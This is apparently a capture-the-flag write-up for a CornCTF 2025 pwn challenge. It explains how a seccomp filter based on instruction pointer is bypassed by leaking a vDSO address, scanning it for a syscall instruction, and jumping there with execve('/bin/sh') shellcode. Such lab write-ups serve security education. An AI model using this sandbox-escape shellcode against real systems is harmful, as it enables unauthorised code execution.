








Solved by: Ub1k
writeup by: Ub1k
# Introduction

This is the first pwn challange in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.



By executing the binary we are prompted to input the length of some shellcode followed by the code itself.



It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)`. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.


## mmap my beloved

> [!note]
> **mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use `strace` and read the command from there:



These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:



The `prctl` call sets the NO_NEW_PRIVS flag, why?  It is a security measure to stop privilege escalation put before a seccomp filter ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The syscall sets a seccomp filter (317 = sys_seccomp) on the binary.

> [!info]
> As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.

So the questions becomes: What does the seccomp filter filter?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but thats not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  No syscalls in the mmap region :( BUT WAIT

So what can we find after `0x500fff` but before `0x7fffffffffff`?



Looking at the mappings with `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

> [!info]
> **vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!


# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle the problem one after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.



## The Pwn

Now comes the difficult part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

Now let's scan the memory area:

```
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases r8 (pointer to vdso leak) and take two bytes, it then check if bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, r8 will point to a valid syscall instruction, and we can continue with setting the registers for a execve call.

```
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8
```

and boom, we have a shell.

